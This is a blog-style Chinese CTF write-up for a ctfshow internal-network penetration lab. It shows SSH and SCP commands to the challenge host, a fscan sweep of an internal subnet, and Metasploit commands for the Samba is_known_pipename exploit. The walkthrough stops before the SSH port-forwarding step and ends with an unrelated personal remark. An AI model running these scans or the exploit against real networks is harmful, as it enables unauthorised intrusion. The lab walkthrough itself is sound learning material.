# ctfshow内网渗透复现

<br>

## 复现过程

<br>

先放一下ssh命令:

````
ssh ctfshow@pwn.challenge.ctf.show -p 28169       #用于ssh连接题目shell
scp -P 28169 local_file ctfshow@pwn.challenge.ctf.show:/tmp     #用于上传东西
````

### 1.根据提示寻找有用的工具

<br>

题目提示我们攻击机有工具，利用find命令可以找到。或者直接乱翻文件，msf就在/opt目录下.

````
find / -name metasploit-framework
````
直接使用msfconsole报错，使用chmod 777 metasploit-framework 给权限后可以直接使用了


<img src="https://54huarui.github.io/blogs/internalwww/1.png" width="880" height="480">

<br>

### 2.扫描

<br>

因为是内网渗透，所以还是要做一些扫描。

上传fscan并扫描内网
````
scp -P 28169 local_file ctfshow@pwn.challenge.ctf.show:/remote/directory/
ifconfig           #查看ip
./fscan -h 172.2.162.4/24 -o fscan.log #扫描

````


<img src="https://54huarui.github.io/blogs/internalwww/2.png" width="880" height="480">


<br>

<img src="https://54huarui.github.io/blogs/internalwww/3.png" width="880" height="480">

<br>

这里我在网上找到个很奇怪的解，已知445端口存在一个samba的洞，可以直接打下来
````
msfconsole
use exploit/linux/samba/is_known_pipename
set rhost x.x.x.x
exploit 
````

然鹅卡在获得Starting interaction with 1...的提示了。这边不打算尝试了，估计是非预期解被修复了

本着学习的目的，继续尝试网上其他大佬的解法

<br>


刚刚扫描的时候发现一个80端口和文件管理系统，我们想办法进入看看怎么个事。网上有两种办法，一个是用ssh搭
socks5隧道，第二种就是用ssh映射直接映射到本地端口。我这里选择第二种办法


















































<br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>



## 写在前面

有些东西不好明说，但是那种感觉又回来了。再不调整自己就得落得不好的下场
